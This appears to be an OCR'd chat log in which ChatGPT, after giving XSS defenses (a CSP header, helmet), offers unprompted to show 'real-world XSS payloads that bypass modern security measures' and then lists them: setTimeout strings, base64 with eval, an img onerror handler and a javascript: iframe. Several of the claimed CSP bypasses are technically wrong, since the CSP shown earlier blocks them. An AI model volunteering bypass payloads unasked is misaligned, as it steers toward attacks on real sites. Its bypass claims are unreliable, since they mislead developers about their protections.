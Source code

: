 Content-Security-Policy: default-src 'self'; script-src 'self'

✅ 5. Set Secure Headers (Helmet in Express)

    Install helmet to set security headers:

npm install helmet

    Use it in server.js:

const helmet = require("helmet");
app.use(helmet());

🚀 Final Thoughts

This XSS attack can steal sessions, log passwords, and control a user's browser.
Would you like to explore real-world XSS payloads that bypass modern security measures? 🚀
You said:
yes please
ChatGPT said:
🔥 Real-World XSS Payloads That Bypass Modern Security 🚀

Modern web applications use CSP (Content Security Policy), input sanitization, and cookie security to prevent XSS attacks. However, attackers continuously find new ways to bypass protections.
💣 1️⃣ CSP Bypass with setTimeout() or setInterval()

Even with CSP restrictions, setTimeout() and setInterval() can still execute JavaScript.

<script>
    setTimeout("alert('XSS via setTimeout')", 1000);
</script>

✅ Bypass Target: Websites that allow <script> but restrict eval().
💣 2️⃣ XSS via Base64-Encoded Payload (Bypassing Filters)

Some filters block keywords like alert() or document.cookie, but Base64 encoding can bypass them.

<script>
    eval(atob('YWxlcnQoJ1hTUyBCYXNzZWQhJyk7'));
</script>

👉 Decoded Version:

alert('XSS Bypassed!');

✅ Bypass Target: Filters that check for plaintext payloads.
💣 3️⃣ Bypassing CSP Using window.onerror

If inline scripts are blocked by CSP, window.onerror can still be exploited.

<img src="x" onerror="window.onerror=alert;throw 'XSS'">

✅ Bypass Target: CSP that prevents inline scripts.
💣 4️⃣ XSS via iframe Injection

Some apps allow embedding of iframes without restrictions.

<iframe src="javascript:alert('XSS in iframe')"></iframe>

✅ Bypass Target: Sites that allow <iframe> without sandboxing.
💣 5️⃣ Bypassing Filters Using JavaScript constructor
